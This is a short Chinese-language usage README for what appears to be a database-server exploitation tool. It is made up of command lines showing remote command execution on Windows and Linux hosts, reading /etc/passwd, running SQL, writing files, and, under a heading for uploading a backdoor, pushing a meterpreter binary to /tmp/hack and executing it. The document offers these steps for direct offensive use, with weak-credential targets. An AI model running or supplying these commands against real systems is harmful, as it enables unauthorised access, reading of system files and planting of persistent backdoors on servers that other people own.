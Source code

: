 # 使用

## Windows 主机执行命令

```bash
python3 '/tmp/main.py' --host "192.168.163.154" -w "123456" -m "rce" -c "ipconfig" -e "GBK"
```

![img.png](img/img.png)

## Linux 主机执行命令

```bash
python3 '/tmp/main.py' --host "192.168.163.149" -w "123456" -m "rce" -c "id" -e "UTF8"
```

![img.png](img/img2.png)

## Linux 主机读取文件

```bash
python3 '/tmp/main.py' --host "192.168.163.149" -w "123456" -m "read" -s "/etc/passwd" -e "UTF8"
```

![img_1.png](img/img_1.png)

## 执行 SQL 语句

```bash
python3 /tmp/main.py --host "192.168.163.149" -w "123456" -m "sql" -c "show server_version;" -e "UTF8"
```

![img_2.png](img/img_2.png)


## 写入字符串

```bash
python3 main.py --host "192.168.163.149" -w "123456" -m "text_upload" -s "this is test" -t "/tmp/1.txt"
# python3 '/tmp/main.py' --host "192.168.163.149" -w "123456" -m "rce" -c "cat /tmp/1.txt" -e "UTF8"
```

![img_3.png](img/img_3.png)

## 上传后门程序

上传：

```bash
python3 main.py --host "192.168.163.149" -w "123456" -m "bin_upload" -s "/tmp/meterpreter" -t "/tmp/hack"
```

![img_4.png](img/img_4.png)

执行：

```bash
python3 '/tmp/main.py' --host "192.168.163.149" -w "123456" -m "rce" -c "chmod +x /tmp/hack;/tmp/hack" -e "UTF8"
```

![img_5.png](img/img_5.png)